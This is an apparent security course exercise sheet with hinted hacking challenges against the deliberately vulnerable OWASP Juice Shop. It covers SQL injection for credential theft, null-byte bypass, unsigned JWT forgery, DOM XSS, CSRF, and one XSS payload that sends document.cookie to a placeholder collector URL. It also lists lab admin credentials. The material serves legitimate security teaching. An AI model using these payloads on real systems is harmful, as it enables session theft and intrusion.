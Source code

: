 # Exercises

Make sure you understand the feature you are analysing for vulnerabilities.
Before attempting any exploits, walk the "happy path" and investigate if the feature works as expected.


## Zero Stars

Give a devestating zero-start feedback to the store. You find the feedback form at `/#/contact`.

<details>
  <summary>❓ Hint 1</summary>
Can you enable the button with the developer tools?

</details>

<details>
  <summary>❓ Hint 2</summary>
There is another way: Use ZAP to find the request and replay it with a 0 value.
    
</details>


## Payback Time

Place an order that makes you rich.

<details>
  <summary>❓ Hint 1</summary>
When you order an item, you pay money. When you sell an item, you are being paid. Basic economics.
</details>

<details>
  <summary>❓ Hint 2</summary>
Have you tried ordering a negative amount of items?
</details>


## Confidential Document

Access a confidential document.
Reading the about us (`/#/about`) might nudge you in the right direction.


<details>
  <summary>❓ Hint 1</summary>
Robots are certainly disallowed to access confidential files.
How would you tell google to hide a directory?
</details>


## View Basket

You need some inspiration on what to buy. View another user's shopping basket.

<details>
  <summary>❓ Hint 1</summary>
Observe the HTTP traffic using ZAP when shopping. Is there a request with an interesting parameter that you could change in your favor?
</details>


## Forged Review

Privacy is important. Post a product review as another user or edit any user's existing review.

<details>
  <summary>❓ Hint 1</summary>
Observe the HTTP traffic using ZAP while submitting a review for the "Apple Juice". Can you alter any interesting parameters when sending a request to `/rest/products/1/reviews`?
</details>


## Login Admin

Sometimes it is boring to be a normal user. Login as the administrator (admin@juice-sh.op) instead.

<details>
  <summary>❓ Hint 1</summary>
User credentials are generally stored in a database, can you perform an injection that results in a positive query reply?
</details>

<details>
  <summary>❓ Hint 2</summary>
Don't forget to comment out the trash after the injected commands.
</details>


## User Credentials

Data is power. Steal all user credentials by abusing the search functionality.

<details>
  <summary>❓ Hint 0 (the endpoint)</summary>
The vulnerable (legacy) search endpoint is located under the following path `/rest/products/search?q=<SEARCH QUERY>`.
</details>

<details>
  <summary>❓ Hint 1</summary>
The endpoint is vulnerable to SQL injections.
When exploiting a SQL injection, make sure that you know how to properly close the query.
Start by crafting a simple query that doesn't result in an error (e.g. does `test';--` work, or are there for instance any open brackets left?)
</details>

<details>
  <summary>❓ Hint 2</summary>
Exploit the SQLi by crafting an `UNION SELECT` query to join the data from another table to the results.
</details>

<details>
  <summary>❓ Hint 3</summary>
Use the `sqlite_schema` table to extract the relevant table names.
</details>

<details>
  <summary>❓ Hint 4</summary>
Use the `PRAGMA_TABLE_INFO('TABLE NAME GOES HERE')` table to extract the relevant column names.
</details>


## NoSQL Manipulation

Look at the endpoint `PATCH /rest/products/reviews`.
Update multiple product reviews at the same time.

```javascript
module.exports = function productReviews () {
  return (req, res, next) => {
    const user = security.authenticatedUsers.from(req)
    db.reviews.update(
      { _id: req.body.id },
      { $set: { message: req.body.message } },
      { multi: true }
    ).then(
      result => {
        res.json(result)
      }, err => {
        res.status(500).json(err)
      })
  }
}
```

<details>
  <summary>❓ Hint 1</summary>
Read the documentation of
<a href="https://www.mongodb.com/docs/manual/reference/method/db.collection.update/">`db.collection.update` documentation</a>
and the <a href="https://www.mongodb.com/docs/manual/reference/operator/query/">query operators documentation</a>.

Which query allows you to change multiple reviews at the same time?
</details>


## Null-Byte Injection

Download `/ftp/package.json.bak`.
Note node.js handles null-bytes differently than the underlying library which is written in C.

<details>
  <summary>❓ Hint 1</summary>
In C strings are terminated by a NULL byte.
Thus the string "hello.txt■.md" (with ■ representing the NULL byte) will be seen as "hello.txt■.md" in node.js, but as "hello.txt" in the low level library that opens the file.
How can this be exploited, when the access verification happens in node.js?
</details>

<details>
  <summary>❓ Hint 2</summary>
A url encoded null byte is represented as "%00", however, make sure you properly encode it when submitting the request.
</details>


## Federated Authentication

Find a website with a social login and use ZAP to observe what happens when you sign in.  
Example: https://oag.azurewebsites.net


## JSON Web Token
Analyze a JWT from the shop with https://jwt-attacker.onrender.com

- What claims are in the token?
- How is it signed?


## Unsigned JWT

Forge an essentially unsigned JWT that impersonates the (non-existing) user jwtn3d@juice-sh.op.

<details>
  <summary>❓ Hint 1</summary>
Exploit a weird option, that is available when signing tokens with JWT.
</details>

<details>
  <summary>❓ Hint 2</summary>
The weird option is the none algorithm ;)
</details>


## DOM XSS

Perform a DOM XSS attack with the following payload: `<iframe src="javascript:alert(`xss`)">`.

<details>
  <summary>❓ Hint 1</summary>
Did you try searching?
</details>


## Blind Persistent XSS

Perform a (blind) persistent XSS attack bypassing a client-side security mechanism.

- The admin can see a list of all users on `/#/administration`
- Admin login: admin@juice-sh.op / admin123

Can you extract the cookies and send it to you (https://requestbin.net/ might be helpful)?

<details>
  <summary>❓ Hint 1</summary>
What information is displayed to the admin? When can you set it?
</details>

<details>
  <summary>❓ Hint 2</summary>
When registering a new user the endpoint `/api/Users` is contacted. This looks interesting...
</details>

<details>
  <summary>❓ Hint 3 (Cookie exfiltration)</summary>

Have you tried the following?

```
<img src=x onerror="this.src='YOUR.URL?'+document.cookie; this.removeAttribute('onerror');">
```
</details>


## Content Security Policy

Search for a websites with a CSP. How does the CSP of your favorite bank look like?


## CSRF

Change the name of a user by performing Cross-Site Request Forgery from another origin.

- Make your own attacker web-site that changes a logged-in user's Juice Shop username when she/he visits your site.
- Note: You need to use Firefox, because it does not treat cookies as `same-site=lax` per default.
- Can you do it with a CORS request and an autosubmitting `<form>`?
- Use a local file or `https://htmledit.squarefree.com` to simulate a different website.

<details>
  <summary>❓ Hint 1</summary>
`POST /profile`
</details>


## Frontend Typosquatting

[Inform the shop](http://localhost:3000/#/contact) about a typosquatting imposter that dug itself deep into the frontend (Mention the exact name of the culprit in the contact form).

<details>
  <summary>❓ Hint 1</summary>
Inspect the package.json.bak from the <a href="#null-byte-injection">Null-Byte Injection exercise</a>.
</details>


## Vulnerable Library

[Inform the shop](http://localhost:3000/#/contact) about a vulnerable library it is using (Mention the exact library name and version in your comment).

<details>
  <summary>❓ Hint 1</summary>
Inspect the package.json.bak from the <a href="#null-byte-injection">Null-Byte Injection exercise</a>.
</details>


## Dependency Scanning

Use Snyk or any other dependency scanner to analyze the Juice Shop's dependencies.

- Are there any outdated packages?
- How severe are the issues?


## OWASP ZAP Scanning

Use OWASP ZAP to perform an automated dynamic test of your Juice Shop.

`docker run --net=host -t owasp/zap2docker-stable zap-baseline.py -t http://localhost:3000`

- What kind of vulnerabilities does it find?
- Do you think it is useful?
- If you are interested, try the full scan.
